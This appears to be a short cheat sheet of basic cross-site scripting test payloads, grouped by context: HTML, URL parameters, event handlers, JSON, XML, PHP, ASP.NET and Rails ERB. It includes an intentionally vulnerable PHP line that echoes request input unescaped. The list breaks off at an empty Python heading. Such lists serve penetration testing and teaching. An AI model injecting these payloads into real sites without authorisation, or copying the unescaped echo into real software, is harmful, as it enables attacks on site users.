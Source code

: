 # XSS
XSS quick fire samples:

HTML/JavaScript

1. <script>alert('XSS')</script>


2. <img src=x onerror=alert('XSS')>


3. <svg><script>alert('XSS')</script></svg>


4. <iframe src="javascript:alert('XSS')"></iframe>


5. <body onload=alert('XSS')>



URL Parameters

1. http://example.com/?q=<script>alert('XSS')</script>


2. http://example.com/?q=<img src=x onerror=alert('XSS')>



JavaScript (JavaScript Events)

1. <a href="#" onclick="alert('XSS')">Click me</a>


2. <div onmouseover="alert('XSS')">Hover over me</div>



JSON

{"data": "<script>alert('XSS')</script>"}

XML

<data><![CDATA[<script>alert('XSS')</script>]]></data>

PHP (Common Injections)

1. <?php echo '<script>alert("XSS")</script>'; ?>


2. <?php echo $_GET['input']; ?>



ASP.NET

<%= "<script>alert('XSS')</script>" %>

Ruby on Rails (ERB)

<%= "<script>alert('XSS')</script>".html_safe %>

Python (Flask)
